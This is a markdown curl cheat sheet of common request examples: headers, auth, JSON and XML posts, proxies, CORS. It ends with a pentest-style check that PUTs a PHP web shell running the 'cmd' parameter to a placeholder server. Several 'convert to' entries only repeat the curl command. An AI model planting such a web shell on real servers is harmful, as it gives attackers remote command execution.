 ```yaml
---
title: Basics
date: {{ date }}
background: bg-green-400
icon: curl
tags:
- curl
categories:
- Linux Command
intro: A quick cheat sheet for curl
plugins:
- copyCode
---
```


Curl Basics
---------------

### Get header
```shell script {.wrap}
curl -i <URL>
```

### Follow redirects
```shell script {.wrap}
curl -L <URL>
```

### Ignore ssl error
```shell script {.wrap}
curl -k <URL>
```

### Specific HTTP Method
```shell script {.wrap}
curl -XPOST <URL>
curl -XPUT <URL>
curl -XDELETE <URL>
```

Set values
-----------

### Cookie
```shell script {.wrap}
curl --cookie "Name=Value" <URL>
```

### User Agent
```shell script {.wrap}
curl -A "ReqBin Curl Client/1.0" <URL>
```
### Custom Header
```shell script {.wrap}
curl -H "X-Custom-Header: value" <URL>
```
### Basic auth
```shell script {.wrap}
curl -u "login:password" <URL>
```

Parameters
-----------

### Connection timeout
```shell script {.wrap}
curl --connection-timeout 5 <URL>
```

### Post Json Curl
```shell script {.wrap}
curl -X POST <URL> -H 'Content-Type: application/json' -d '{"login":"my_login","password":"my_password"}'
```

### Post with body curl
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/json" -d '{"productId": 123456, "quantity": 100}'
```

### Post file using curl
```shell script {.wrap}
curl -d @data.json <URL>
```

### Curl through proxy
```shell script {.wrap}
curl <URL> -x myproxy.com:8080 -U login:password
```

### Curl with bearer token authrizaion header
```shell script {.wrap}
curl <URL> -H "Accept: application/json" -H "Authorization: Bearer {token}"
```

### Curl fetching json
```shell script {.wrap}
curl <URL> -H "Accept: application/json"
```

### Post form data with curl
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/x-www-form-urlencoded" -d "param1=value1&param2=value2"
```

### Set Content type curl
```shell script {.wrap}
curl -X POST <URL> -H 'Content-Type: application/json' -H 'Accept: application/json' -d '{"Id": 78912, "Quantity": 1, "Price": 19.00}'
```

### Post XML with curl
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/xml" -H "Accept: application/xml" -d "<Request><Login>my_login</Login><Password>my_password</Password></Request>"
```

### Curl fetch XML
```shell script {.wrap}
curl <URL> -H "Accept: application/xml"
```

### Curl send PUT request
```shell script {.wrap}
curl -X PUT <URL> -d "PUT request data"
```

### Curl send DELETE request
```shell script {.wrap}
curl -X DELETE <URL> -H "Accept: application/json"
```

### Curl send OPTIONS request
```shell script {.wrap}
curl https://api.reqbin.com/api/v1/requests -X OPTIONS -H "Access-Control-Request-Method: POST" -H "Access-Control-Request-Headers: content-type" -H "Origin: https://reqbin.com"
```

### Curl send CORS request
```shell script {.wrap}
curl -H "Origin: https://example.reqbin.com" https://sample-site.com
```

### Curl convert to PYTHON
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to Javascript / AJAX Calls
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to PHP
```shell script {.wrap}
curl -X POST <URL> -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to HTTP request
```shell script {.wrap}
curl https://sample-site.com/get/json -H "Content-Type: application/json" -H "Accept: application/json"
```

### Check if it is possible to upload using put
```shell script {.wrap}
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php
```